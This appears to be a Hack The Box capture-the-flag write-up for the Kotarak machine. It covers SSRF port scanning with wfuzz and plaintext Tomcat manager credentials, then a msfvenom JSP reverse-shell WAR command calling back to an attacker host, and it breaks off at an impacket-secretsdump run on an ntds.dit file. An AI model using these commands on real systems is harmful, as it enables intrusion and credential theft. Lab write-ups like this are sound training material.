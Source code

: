 ```yaml
---
title: "Hack The Box - Kotarak"
tags: [linux,hard,ssrf,tomcat,ntds.dit,ntlm,secretsdump,wget,cronjob]
categories: HackTheBox-Linux
---
```



![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/title.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/title.png)

## *NMAP*
This Machine is the Hard level machine so i will prefer the Full Port Scan :- 

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/Untitled%203.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/Untitled%203.png)


## *Enumerating [ SSRF ]*

-> So on port 8080 we have our Tomcat running . On port 60000 we have an webpage that sends an GET request on the url provided :

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/Untitled%203.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/Untitled%203.png)

-> If we try to read /etc/passwd the The word **`file`** is filtered which stops us from reading local files. Although we are able to use [localhost](http://localhost) and access this and the tomcat page :

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/burp.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/burp.png)

=> Scanning Ports on [localhost](http://localhost) using wfuzz 

**`wfuzz -c -z range,1-65535 --hl=2 http://10.10.10.55:60000/url.php?path=http://localhost:FUZZ`**
![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/wfuzz.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/wfuzz.png)

→ [localhost:888](http://localhost:888) has interesting things :

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/back.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/back.png)

→ Taking a look at **backup** option.

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/se.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/se.png)

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/cred.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/cred.png)

We got credentials for tomcat

```
admin : 3@g01PdhB!
```

⇒ Logged in on tomcat manager page. Uploaded a WAR msfvenom shell and popped a shell :

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.56.101 LPORT=4444 -f war > shell.war
```
![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/tommm.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/tommm.png)

*Starting out netcat 

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/image.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/image.png)

---

### *Privilege Escalation [ tomcat to atanas ]*

⇒ In /home/tomcat/to_archive/pentest_data  folder we find 2 interesting files which looks like one of them is ntds.dit and the other is system registry file :

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/pwd.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/pwd.png)

Lets run [secretsdump.py](http://secretsdump.py) [ a tool from impacket ] to retrieve ntlm hashes

```impacket-secretsdump -ntds 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -system  20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin LOCAL  

```



